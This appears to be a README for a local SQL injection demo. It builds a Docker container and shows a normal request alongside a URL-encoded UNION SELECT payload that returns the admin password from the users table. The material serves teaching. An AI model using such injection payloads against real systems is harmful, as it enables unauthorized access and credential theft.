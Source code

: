 # SQL injection example

## Build container

```console
> docker build -t sqlinjection .
```

## Start container 

```console
> docker run --rm -it -p 8080:80 sqlinjection:latest
```

## Reqular request

```console
> curl 'http://localhost:8080/users/2'
{"id":2,"username":"user1"}
```

## Request user admin password

```console
> curl 'http://localhost:8080/users/%27%27%20union%20select%20id%2C%20password%20from%20users%20where%20username%20%3D%20%27admin%27'
# "http://localhost:8080/users/'' union select id, password from users where username = 'admin'"
{"id":1,"username":"secure_password_123"}
```
